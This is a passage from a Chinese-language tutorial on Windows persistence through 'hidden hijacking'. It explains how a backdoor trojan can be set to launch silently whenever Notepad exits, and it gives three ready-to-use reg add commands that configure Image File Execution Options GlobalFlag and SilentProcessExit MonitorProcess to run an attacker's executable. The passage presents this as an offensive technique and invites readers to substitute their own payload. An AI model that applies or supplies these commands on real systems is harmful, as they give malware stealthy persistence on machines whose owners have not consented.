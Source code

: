 ![image-20230817104659533](assets/image-20230817104659533.png)

## 5.3. 隐藏劫持测试

隐藏劫持就是配合GlobalFlag来实现，执行正常关闭后触发，也就是说当记事本执行后，木马是不会被执行的，同时记事本依旧是能够正常运行的，相当于无感操作，但是当关闭记事本的时候，就会自动触发执行后门木马。

### 5.3.1. 操作演示

这里我们修改一下，自行看命令，把一些内容修改成你自己的即可。

```
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "C:\1\3000.exe"
```

![image-20230817105545307](assets/image-20230817105545307.png)
